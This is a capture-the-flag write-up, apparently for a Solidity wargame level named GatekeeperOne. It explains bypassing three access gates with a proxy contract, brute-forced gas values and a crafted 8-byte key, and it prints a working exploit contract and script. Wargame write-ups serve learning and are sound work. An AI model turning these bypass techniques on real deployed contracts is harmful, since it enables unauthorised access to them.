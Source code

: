 # Answer

Goal: Register as an entrant.

## 1. Passing gate one

The first modifier requires that the `msg.sender` and `tx.origin` would NOT be the same address. This means we'll be using a smart contract as a proxy to execute the exploit.

## 2. Passing gate two

This modifier checks that a multiple of 8191 gas would be left at that point. We've tried estimating the exact amount of gas to be passed, but the more fullproof method in the end was adding a loop and brute forcing the exact amount. We've added a script similar to this:

```js
for (let extraGas = 0; extraGas < 1000; extraGas++) {
  try {
    await proxyContract.exploit(extraGas)
  } catch (_) {}
}
```

```solidity
function exploit(uint256 extraGas) external {
    // 163820 is a large enough multiple of 8191 to be certain to cover any remaining gas needs
    g.enter{gas: 163820 + extraGas}();
}
```

## 3. Passing gate three

The gate three may seem a bit daunting, but if we break down each comparison:

1. Last 32 bit and 16 bit number versions of `_gateKey` have to be equal => if we take 32 bit hex number the xxxxyyyy the "x" hex values have to be 0 for this to be true.

2. Last 64 bit and 32 bit number versions of `_gateKey` have to be NOT equal => we extend the previous 32 bit hex number with "z" - zzzzzzzzxxxxyyyy and "z" value canNOT be equal to 0 for this to be true.

3. Final comparison adds a dependancy on the transaction originator. The 32 bit hex number xxxxyyyy where we now know that x is 0 has match the last 16 bits of the originator address. Means that yyyy has to equal the final 4 hexes of the address.

In the end we get a 64 bit (8 byte) number where if we divided into before mentioned z x y parts - zzzzzzzzxxxxyyyy:

- zzzzzzzz - can be any value except 0;
- xxxx - has be equal to 0;
- yyyy - has to match the final 4 hexes of the address

## 4. Entering the smart contract

Since the extra gas was the only uncertainty in our case the exploit contract looked like this. The `extraGas` value turned out to be 250.

```solidity
contract GatekeeperOneExploit {
    GatekeeperOne g;

    constructor(address targetAddr) public {
        g = GatekeeperOne(targetAddr);
    }

    // last four hexes of the sender
    // 0x00000000000000000000000000000000000093BC
    function exploit(uint256 extraGas) external {
        uint64 gateKey = 4295005116;

        g.enter{gas: 163820 + extraGas}(bytes8(gateKey));
    }
}
```
